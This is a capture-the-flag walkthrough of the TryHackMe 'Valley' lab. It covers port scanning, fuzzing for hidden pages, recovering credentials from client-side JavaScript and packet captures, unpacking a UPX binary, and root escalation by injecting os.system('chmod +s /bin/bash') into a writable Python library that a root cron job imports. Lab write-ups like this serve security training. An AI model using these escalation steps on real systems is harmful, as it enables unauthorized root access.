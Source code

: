 ```bash
# PLATFORM          . THM
# CTF NAME          . Valley
# DESCRIPTION       . Can you find your way into the Valley?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/valleype
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.96.224 -oN valley
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|_  256 429e2ff63e5adb51996271c48c223ebb (ECDSA)

80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)

37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- There wasn't any relevant information on the website itself.
- By looking at the source code of different page, I found the following endpoints.

```
/gallery
/static
/pricing
```

- I have decided to fuzz them all for potential hidden directories

- By fuzzing pricing, I found the following

```
J,
Please stop leaving notes randomly on the website
-RP
```

- By fuzzing static, I found another directory that is not linked in `/gallery`

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /{redacted}
-check for SIEM alerts
```

- By navigating to the hidden directory, we find a login panel. 
- I wanted to try to bruteforce it using hydra, assuming `valleyDev` was the username.

- When I was inspecting the source page to get the form details for hydra, I noticed `dev.js` being linked to the page.

- This was a poorly written javascript login function that contained the credentials in plain text

```javascript
if (username === "siemDev" && password === "{REDACTED}") {
        window.location.href = "/{REDACTED}/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
```

- After using the credentials found in the script, I got the following note

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

- Alright. So we know that the same credentials are working on the FTP server.

#### PORT 37370 

```
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 .
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 ..
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
```

- I've downloaded all files and inspected them using `Wireshark`. 

- `siemFTP.pcapng` contains just an anonymous login to the FTP server that is currently not available anymore. These were the files the user had access to.

```
-rw-r--r-- 1 0 0 0 Mar 06 13:27 AnnualReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 BusinessReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 CISOReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 HrReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 ItReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 SecurityReport.txt
```

- All seem irelevant for our purpose here.

- `siemHTTP1` is just regular traffic and most of the `siemHTTP2` too, but from the latter we're able to extract multiple `.html` files.

- If we open them, one of them holds the credentials for `valleyDev`.

```
uname=valleyDev&psw={REDACTED}&remember=on
```

- The first flag can be found in `/home/valleyDev/user.txt`.

#### PRIVILEGE ESCALATION valleyDev -> valley

- A custom executable, `valleyAuthenticator`, is found in `/home`. 

- I couldn't use strings on the target server since it wasn't installed so I've transferred the file locally using a python htpp server.

- After that, I've used `strings` on it and I found multiple occurings of something called `UPX`.

- After reading some documentation, I've discovered that UPX is used to pack executables to reduce disk size, so this had to be unpacked.

- I've downloaded the binary from their github releases page and used the following command to unpack `valleyAuthenticatior`.

```
./upx -d -o output.elf valleyAuthenticator
```

- Now, I've used `strings` again on the output and this time I found more readable text

```
e6722920ba{REDACTED}e4bf6b1b58ac
dd2921cc76{REDACTED}09056cfb
Welcome to Valley Inc. Authenticator
What is your username: 
What is your password: 
Authenticated
```

- What got my attention was the following lines, as they looked like hashes.

- These two are MD5 hashes that have the credentials of user `valley`. 

#### PRIVILEGE ESCALATION valley -> root

```bash
id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

- We weren't part of `valleyAdmin` with the previous user.

- I continued my usual checks and I found the following in `/etc/crontab`

```
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

```
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py
```

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
	image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
	with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
	encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
	output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
	with open(output_path, "wb") as output_file:
    	  output_file.write(encoded_image_data)
```

- But we don't have permission to modify this or to recreate the script in the directory as neither of them are owned by us.

- After a while I couldn't find anything else useful in particular so I've decided to look for unusual files using `find`.

- One of my checks was to see which files are owned by the group `valleyAdmin`.

```bash
find / -group valleyAdmin 2>/dev/null
```

```
/usr/lib/python3.8/base64.py
```

```
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```

- `base64.py` is writable by us and is included in the script found in the crontab.
- This means that whatever we write in `base64.py` gets executed when the script runs.

```
#! /usr/bin/python3.8

import os
os.system("chmod +s /bin/bash")
```

- Then I've used `/bin/bash -p` to spawn a shell as `root`. 

- The last flag is in `/root/root.txt`.

